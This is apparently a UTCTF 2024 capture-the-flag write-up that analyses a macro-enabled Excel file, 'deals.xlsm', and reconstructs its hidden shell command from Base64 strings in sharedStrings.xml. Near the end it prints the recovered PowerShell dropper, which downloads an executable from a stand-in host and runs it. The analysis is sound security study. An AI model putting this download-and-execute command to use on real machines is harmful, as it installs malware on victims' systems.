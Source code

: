 # Fruit Deals | Reverse Engineering, Forensics | UTCTF 2024

We are given `deals.xlsm`, a macro-enabled Excel spreadsheet file, and our goal is to find the filename of the file that the program attempts to download. If you do not have Microsoft Excel, it is possible to open this file using LibreOffice.

Upon opening the file, you will hopefully see that macros were blocked from running. We can view the macro code, which I have copied into `module1.vba` and `module2.vba`. Module 1 contains code that fills the Sheet2 spreadsheet with random Base64 strings. Module 2 contains many if statements that check the values of cells in Sheet2 to build up a string. This string is then run as a shell command. If we know the contents of Sheet2, then we can reconstruct the shell command without having it actually execute.

If we open `deals.xlsm` in an archive utility such as 7zip, we will find a `sharedStrings.xml` file. I have also extracted the archive contents into the `deals` folder. This file contains a massive amount of Base64 strings, which appear to be the strings contained in Sheet2. We can now simply go through each if statement in module 2 and check if the Base64 string exists in `sharedStrings.xml` to recover the shell command.

The following command is formatted for readability.

```
poWeRsHELL -command ""
$oaK = new-object Net.WebClient;
$OrA = 'http://fruit.gang/malware';
$CNTA = 'banANA-Hakrz09182afd4';
$jri=$env:public+'\'+$CNTA+'.exe';
try{
$oaK.DownloadFile($OrA, $jri);
Invoke-Item $jri;
break;
}
catch {}
""
```

Looking at the documentation for WebClient.DownloadFile (https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-8.0), the second argument is the filename of the downloaded file. Therefore, the filename is `banANA-Hakrz09182afd4`.

```
utflag{banANA-Hakrz09182afd4}
```